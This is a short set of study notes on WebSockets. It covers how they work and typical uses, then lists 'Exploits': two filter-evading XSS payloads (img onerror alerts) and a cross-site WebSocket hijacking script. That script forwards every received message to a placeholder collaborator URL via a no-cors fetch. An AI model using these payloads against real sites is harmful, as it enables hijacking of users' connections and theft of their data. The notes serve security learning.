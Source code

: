 1.  Websockets are initiated over HTTP and provide long-lived connections with asynchronous (Client does not wait for the responce unlike HTTP) communication in both directions.
2.  Use cases:  
    * Chat apps,  
    * video and voice calls,  
    * online gaming,  
    * live streaming,  
    * real-time updates,  
    * collaborative editing, and other applications that require instant message delivery.  
3. Exploits:   

```
<img src=1 onerror='alert(1)'>
```  
```  
{"message":"<img src=42 OnERroR=alert`42`>"}
```  

```
<script>
// Create a new WebSocket object and connect to the specified URL
var ws = new WebSocket('wss://your-websocket-url');

// Set an event listener for when the connection is opened
ws.onopen = function() {
// Send a message to the server indicating that the client is ready to receive messages
ws.send("READY");
};

// Set an event listener for when a message is received from the server
ws.onmessage = function(event) {
// Send the received message data as the request body in an HTTP POST request to the specified collaborator URL
// Note that the 'no-cors' mode is used to bypass CORS checks
fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
};
</script>
```
